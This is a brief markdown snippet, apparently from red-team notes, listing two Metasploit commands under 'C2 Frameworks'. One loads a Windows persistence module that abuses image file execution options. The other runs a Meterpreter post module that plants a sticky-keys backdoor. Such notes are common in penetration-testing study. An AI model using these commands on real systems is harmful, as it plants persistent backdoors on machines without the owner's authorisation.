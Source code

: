 # C2 Frameworks

## Metasploit

```
msf > use exploit/windows/local/persistence_image_exec_options
```

```
meterpreter > run post/windows/manage/sticky_keys
```